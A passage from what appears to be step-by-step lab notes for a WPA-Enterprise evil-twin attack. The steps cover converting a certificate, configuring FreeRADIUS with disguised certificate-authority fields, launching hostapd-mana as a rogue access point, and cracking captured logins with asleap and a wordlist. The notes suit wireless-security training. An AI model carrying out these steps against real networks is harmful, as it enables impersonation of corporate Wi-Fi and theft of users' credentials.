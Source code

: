 ### Step 6.5 (Optional): Convert the certificate to PEM format

```bash
openssl x509 -inform der -in cert.der -outform pem -out output.crt
```

### Step 7: Set up FreeRADIUS server

Install with:

```bash
sudo apt install freeradius
```

Edit the `ca.cnf` and `server.cnf` files to have less suspicious certificate authority fields.

```bash
sudo mousepad /etc/freeradius/3.0/certs/ca.cnf
sudo mousepad /etc/freeradius/3.0/certs/server.cnf
```

Update the respective sections with the correct information.

### Step 8: Prepare the certificates

Navigate to `/etc/freeradius/3.0/certs/` and run:

```bash
sudo rm dh && make
```

*Note: Ignore the error from FreeRADIUS if it expects other configurations.*

### Step 9: Configure hostapd-mana

Edit `/etc/hostapd-mana/mana.conf` with the correct SSID, Certificate paths, and EAP file.

### Step 10: Set up `mana.eap_user`

Configure `/etc/hostapd-mana/mana.eap_user` with the desired protocols and authentication methods.

### Step 11: Start hostapd-mana

```bash
hostapd-mana /etc/hostapd-mana/mana.conf
```

### Step 12: Use asleap to find a user

Run asleap with the correct command to find a user with a successful login.

```bash
<asleap command> -W /usr/share/john/password.lst
```

### Step 13: Create `wpa_supplicant.conf` file
